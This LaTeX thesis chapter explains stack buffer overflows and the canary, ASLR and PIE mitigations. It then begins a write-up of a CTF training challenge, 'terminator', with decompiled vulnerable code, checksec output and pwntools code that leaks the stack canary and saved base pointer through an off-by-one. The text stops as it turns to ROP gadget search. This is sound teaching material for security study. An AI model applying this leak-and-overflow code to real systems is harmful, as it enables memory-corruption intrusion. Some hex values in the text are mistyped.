\chapter{Stack Buffer Overflow Vulnerability}
    \section{Background} 
    Buffer overflow is a critical vulnerability that emerged around the 1970s and 1980s when it was 
    realized through research which leads the attacker to uncontrolled access to critical points of memory.\newline
    As the 1990s arrived the explosion of the Internet and its client-server infrastructure led large numbers of people to use buffer overflow.\newline
    Furthermore, in this period the first books were published explaining how buffer overflow works.\newline
    In the 2000s people wanted to defend themselves from these types of attacks and invented two types of mitigations:\newline
    \begin{itemize}
        \item[$\bullet$] ASLR (Address Space Layout Randomization)
        \item[$\bullet$] stack canary 
    \end{itemize}
    We will explain this mitigations later.\newline
    Between 2000s and 2010s even with the mitigations attackers managed to avoid them and still exploit buffer overflow vulnerability with technique called:\newline
        \begin{itemize}
        \item[$\bullet$] ROP (Return Oriented Programming)
        \item[$\bullet$] RET2LIBC (Return to Libc)
    \end{itemize}
    Even though vulnerability was born so many years ago it still is one of the biggest an dangerous vulnerablity.
    \clearpage
  
    \section{How Stack Buffer Overflow works}
    A buffer overflow occurs when the attacker can write more input than expected from the buffer, the overflow input exceeds in the memory in the location right after the buffer we are allocating, this could be very dangerous.\newline
    Here's an example:
    \begin{verbatim}
    #include <iostream>
    
    int main() {
    
        char buff[30]; // buffer victim 
        printf(" insert your name: ");
        scanf("%50s",buff); 
        return 0;
    }
    \end{verbatim}
    In this example, we can see a bad usage of the \texttt{scanf} function.\newline
    This program has a char buffer with a size of 30, but the scanf function can read up to 50 chars.\newline 
    What happens if we insert more input than expected for the buffer?\newline
    The state of the buffer before inserting input is reported in Fig \ref{fig:example_empty_buffer}:\newline
    \begin{figure}[h]
    \centering
    
\includegraphics[width=8cm]{Images/chunk_wout_cacnary.png}
    \caption{Empty stack}
    \label{fig:example_empty_buffer}
    \end{figure}
       \clearpage
    In the example, we can notice that we have our buffer instantiated.\newline
    The question marks were written instead of 0x0000000000000000 because the memory at the beginning of the program is instantiated for the program being executed, but this memory had previously been used in other contexts.\newline
    Now we will try to insert the following payload:
    \begin{verbatim}
        AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPPBBBBBBBBCCCCCCCC
    \end{verbatim}
   
    The letter \texttt{"A"} was used to fill the buffer \texttt{"P"} for the remaining buffer before \texttt{RBP}, and \texttt{"B"} was used to overwrite the saved base pointer.\newline
    \texttt{"C"} for overwriting the return address.\newline
    This will cause a buffer overflow because when we get to the assembly instruction leave and ret it will not find the instruction \texttt{0x4343434343434343} and the program will receive a segmentation fault.
    \begin{figure}[h]
        \centering
        
\includegraphics[width=0.7\linewidth]{Images/example1.png}
        \caption{buffer overflow triggered}
        \label{fig:bofongdb}
    \end{figure}
    \newpage
    
    In Fig \ref{fig:stack w overflow}  is represented the stack after sending this payload:
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.8\linewidth]{Images/stack_after_overflow.png}
        \caption{Stack after the overflow}
        \label{fig:stack w overflow}
    \end{figure}
    As explained previously we have overwritten the base pointer register and the return address.\newline
    Register that is used to keep track of where the program will execute after the function being executed has finished.\newline
    Having changed the \texttt{RIP} register we changed the control flow with the address \texttt{0x4343434343434343}, an address which will not be found by the program because is not mapped in the memory and we will encounter a segmentation fault.\newline

    \clearpage
    \section{Mitigations against Stack Buffer Overflow}
    \subsection{Stack Canary}
    The stack canary is a protection technique that was invented in the 90s to prevent a buffer overflow from occurring.\newline
    It consists of generating a protection value, generated at run time and therefore different for each time a program is executed, but remains for the entire execution of the program.\newline
    The stack canary is placed before important metadata such as the saved base pointer and return address.\newline
    Before executing the epilogue of the function, the integrity of the value of the stack canary is checked.\newline
    If this has been modified or tampered with, the program will end immediately with the following exit code:
    \begin{verbatim}
    *** stack smashing detected ***: terminated
    \end{verbatim}
    Compilers like gcc by default compile with stack canary, by analyzing the decompiled file the compiler will insert the following lines of code to insert the stack canary.\newline
    \begin{verbatim}
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
    \end{verbatim}
    
    The name derives from a small historical note. In fact, the name \texttt{stack canary} was inspired by the technique used in coal mines.\newline
    To avoid entering an area of the mine with high levels of toxic gases, they would let a canary fly ahead.\newline
    If the canary died, passage was prohibited; otherwise, they could pass.
    \clearpage
    
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/photo_of_the_stack_with_canary.png}
        \caption{Stack on gdb with canary.}
        \label{fig:canaryongdb}
    \end{figure}
    In the Fig \ref{fig:canaryongdb} we can analyze the stack extracted from GDB, As we can see, two commands were executed:\newline
    \texttt{canary}: This command shows the possible canaries of this code.\newline
    \texttt{stack 20}: This command shows 20 stack instances.
    
    As we can see, at address \texttt{0x7fffffffdf68}, we have the value \texttt{0xe1509a30995e5f00}, which is our stack canary.\newline
    For some reason the canary always ends with the last byte equal to \text{00} which makes it very recognizable when analyzing the stack.\newline
    \clearpage
    \subsection{ASLR}
    ASLR stands for Address Space Layout Randomization and is a technique they invented to protect operating systems from memory attacks.\newline
    In fact ASLR has the task of randomizing sections of memory such as heap, stacks and shared libraries every time a program or operating system is launched.\newline
    ASLR with the stack canary seen previously and PIE that we will see later are mitigations mainly developed to avoid buffer overflow, in fact ASLR for example avoids us from jumping into memory locations that would be in fixed positions if it were not for this mitigation, and it avoids many attacks.\newline
    ASLR can randomize memory segments between a range of:
    \begin{verbatim} 
    2^8(256) to  2^16(65536)
    \end{verbatim}
    On the Linux kernel we can check the level of randomization with the following command:
    \begin{verbatim}
    cat /proc/sys/kernel/randomize_va_space
    2
    \end{verbatim}
    The result of the command is 2 this indicate that we have maximum number of randomization in my personal Linux kernel.\newline
    In the Fig \ref{fig:ASLR_scheme} how ASLR works is explained through a diagram.
     \begin{figure}
         \centering
         
\includegraphics[width=0.8\linewidth]{Images/aslr_explanation.png}
         \caption{ASLR application.}
         \label{fig:ASLR_scheme}
    \end{figure}

    \subsection{PIE}
    PIE stands for Position Independent Executable and is very similar to ASLR, in fact, it follows the same concept as ASLR but with the binary assembly memory region.\newline
    As can be interpreted from the name Position independence gives the possibility for a binary to be loaded and executed in memory at arbitrary addresses, this means that the program data instead of referring to addresses in fixed memory are referenced through the use of an offset random to the current position where it is loaded plus the offset.
    
    \begin{table}[h] % Utilizzo [b] per posizionare la tabella in fondo alla pagina
      \centering
      \begin{tabular}{|c|c|c|c|}
        \hline
        ASLR  & PIE & Binary Address & Libc Address \\
        \hline
        disable & disable  & 0x400000 & 0x7ffff7d86000 \\
        disable & activated   & 0×555555554000 & 0x7ffff7d86000 \\
        disable & activated   & 0×555555554000 & 0x7ffff7d86000 \\
        activated  & disable  &  0x400000 & 0x7fe7833eb000 \\
        activated  & disable  &  0x400000& 0x7f1a44191000 \\
        activated  & activated   & 0×555555554000 & 0x7f29d6ebd000 \\
        activated  & activated   & 0×555555554000 & 0x7f7d008a0000 \\
        \hline
      \end{tabular}
    \end{table}
    \clearpage

    \section{How to exploit a buffer overflow and demonstration of a challenge}
    This chapter will explain the techniques used to exploit a buffer overflow and demonstrate how the techniques work with an example of an exploit.\newline
    As a demonstration, we will analyze the challenge proposed as training in preparation for the national competition.\newline
    The following challenge was found and chosen for presentation because it includes the bypass of all mitigations and features an exploitation technique that remains highly effective.\newline
    The challenge is called terminator and two files are attached:

    \begin{itemize}
        \item[$\bullet$] file terminator ELF  
        \item[$\bullet$] libc with which they compiled that binary
    \end{itemize}
    \clearpage
    
    \subsection{Plan and organization of steps to carry out a challenge}
    When it comes to finding bugs in real-world applications or solving cybersecurity challenges, the approach can be divided into four main points: \newline
    \begin{itemize}
        \item[Step 1:] Understand the environment.
        \item[Step 2:] Reverse engineering.
        \item[Step 3:] Understand which mitigations are.
        \item[Step 4:] Write the exploit and test it.
    \end{itemize}

    \subsection{Understand the envirnoment}
    Running the command "file terminator"  we have the first information such as:\newline
    \begin{itemize}
        \item[$\bullet$] Terminator is obviously a 64 bit x86-64 elf file.
        \item[$\bullet$] The binary is not stripped, this is positive because it implies that we will have debug symbols and in the reverse engineering phase it helps us a lot.
    \end{itemize}
    \subsection{Reverse Engineering}
    This is one of the most important and complicated phases, in fact from a binary file using tools such as IDA or Ghidra which interpret binary files and decompile them to make this phase easier.\newline
    Certainly, even with very powerful tools like these, the decompiled code will never be as clean as the original code.\newline
    In fact, this phase involves an interpretation of the code through the decompiled code and the assembly that is shown.
    I decide to show a challenge with a very simple.
    I decided to show a challenge that has a simple reverse engineering part because the topic of the thesis is the exploitation phase.\newline
    We come across the following function which contains two critical bugs:\newline
    \clearpage
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=0.9\linewidth]{Images/terminator_rev.png}
        \caption{Enter Caption}
        \label{fig:enter-label}
    \end{figure}
    %ARRIVATO QUA
    As we can see the decompiled version does not interpret the names of the variables and the types, in this specific case the reverse engineering part is simple but can usually take several hours.\newline
    After a small adaptation, the code we interpreted is the following:\newline

 \begin{verbatim}
     void welcome(void)
    {
      ssize_t size;
      long in_FS_OFFSET;
      undefined buffer [56];
      long local_10;
      local_10 = *(long *)(in_FS_OFFSET + 0x28);
      puts("What is your name?");
      printf("> ");
      size = read(0,buffer,0x38);
      buffer[(int)size] = 10;
      printf("Hello %sNice to meet you!\n",buffer);
      puts("Where are you from?");
      printf("> ");
      read(0,buffer,0x48);
      puts("Goodbye!");
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
      }
      return;
    }
 \end{verbatim}
        From this code, we can interpret two critical bugs and one mitigation.\newline
    Initially, a char buffer of size fifty-six is instantiated, some prints are made and then we encounter the first bug.\newline
    The read function, as we can read from the manual, reads the number of bytes indicated within the function, in this specific case fifty-six, and does not add the null byte by default, in fact, the programmer added it manually in the position that reflects the bytes read, however causing an off by one because it will put the null byte in the next byte at the end of the buffer, overwriting the first least significant byte of the next address.\newline
    vulnerable code:\newline
    \begin{verbatim} 
        char buffer [56];
        size = read(0,buffer,56);  
        buffer[(int)size] = '\n';
    \end{verbatim}
    The second critical bug is a buffer overflow where the provenance is requested, in fact it uses the same name buffer to save the provenance.
    Since the buffer is fifty-six characters long and the read has the number of bytes it will read set to seventy-two characters, this undoubtedly causes a buffer overflow of as many as fourteen characters.
    vulnerable code:\newline
    \begin{verbatim} 
    char buffer [56];
    read(0,buffer,72);
    \end{verbatim}
    Finally, from this function, we can understand something that we would have analyzed later but realizing it previously already makes us aware of a potential problem.\newline
    In fact, from the decompiled code we find the code used by the compiler to insert the canary stack, which will prevent us from doing buffer overflows without first leaking the canary stack.\newline
    vulnerable code:
    \begin{verbatim} 
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                        /* WARNING: Subroutine does not return */
        __stack_chk_fail();
    }
    \end{verbatim}
    
    \clearpage
    \subsection{Understand which mitigations are active}
    To understand the mitigations the pwntools library helps us, in fact, there is a feature that allows us to check the mitigations only with the following command:
    \begin{verbatim}
        checksec terminator                                     
[*] '/home/ferro/Downloads/terminator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    \end{verbatim}
    And the checksec command shows that we have an amd64-64-little that stands for x86-64 infrastructure, we have also Full RELRO which means we can't overwrite any plt and got sections in fact that memory is mapped as read-only section, which is not important for this specific exploit but in other exploitation techniques can be a big obstacle to bypass.\newline
    Then we have stack canary, we have already seen the canary code in the reverse engineering step, which confirms the presence of the canary, this will make our life difficult in the exploitation part.\newline
    Furthermore, we have NX enabled so we can't execute shellcode directly in the stack.\newline
    Finally, the good news we haven't PIE so the program data won't be randomized.\newline
    \subsection{Write the exploit and test it}
    \subsubsection{Leak canary and Base Pointer}

    The first step taken in the exploit was identifying the stack canary and saving the base pointer, as it would prove very useful later on.\newline
    The first overflow is perfect for our work, if we look at the decompiled code we can see how the name input produces a bug, an off-by-one, and allows us to overwrite the first byte of the canary stack, a feature of the canary stack is that the first three nibbles and therefore the first and a half bytes are always zero.\newline
    The printf always prints up to the string terminator or null byte, this is the reason why the stack canary being after the name buffer will not be printed because the first byte is always a null byte.\newline
    But what happens if we overwrite the first byte of the canary with off by one?\newline
    exploit code to leak the canary:
    \begin{verbatim} 
    io.sendafter(b">", b"A"*56) 
    io.recvuntil(b'Hello '+ b'A'*56) 
    canary=io.recv(8) # save the canary  
    svb=io.recvuntil(b'Nice' , drop=True) 
    canary=b"\x00"+canary[1:8] 
    real_canary=u64(canary[0:8])
    real_svb=u64(svb.ljust(8,b'\x00'))
    log.info(f"leaked canary: {hex(real_canary)}")
    log.info(f"leaked save base pointer: {hex(real_svb)}")
    \end{verbatim}
    \texttt{sendafter} and \texttt{recvuntil} are all pwntools functions that allow in the case of \texttt{sendafter} to send input bytes (in this case fifty-six A).\newline
    \texttt{recvuntil} instead allows you to receive the program output.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/leaked_canary_terminator.png}
        \caption{Enter Caption}
        \label{fig:leaked_terminator_canary}
    \end{figure}
    As can be deduced from Fig \ref{fig:leaked_terminator_canary} these will be all the bytes that the printf has leaked to us until the arrival of a null byte, these bytes include the canary and the base pointer.\newline
    \clearpage
    In Fig \ref{fig:stack terminator} below we can analyze the state of the stack after the off by one.\newline
    \begin{figure}[htbp]
        \centering
        
\includegraphics[width=1\linewidth]{Images/draw_terminator_stack_canaryleak.png}
        \caption{stack status after off by one}
        \label{fig:stack terminator}
    \end{figure}
    
    As you can see the initial canary address \texttt{0x52eb83d416216c000}
    was overwritten in the last byte and became \texttt{0x52eb83d416216c0a}.\newline
    The printf not encountering null bytes either in the contents of the stack canary or in the contents of the save base pointer will print both.\newline
    %ARRIVATO QUA 
    \subsubsection{Stack Pivoting and ASLR bypass}
    Now that we have the stack canary and the base pointer leak, we can move on to the part of the exploit that allows us to execute commands remotely.\newline
    Having NX as a mitigation we cannot write and execute shellcode on the stack so we will write a ROP chain.
    A ROP chain consists of searching inside our binary for assembly instructions which, when chained together, allow us to make syscalls that interest us.\newline
    \clearpage
    We have a tool that helps us search for gadgets called ropper.\newline
    \begin{verbatim}
    shell command used to find gadgets.
    ~/home/ferro/Downloads/terminator ropper --file=terminator
    \end{verbatim}
    This command will give us more than a hundred instructions as output, following is a photo of the section of the most interesting ones.\newline
    \begin{figure}[htbp]
        \centering
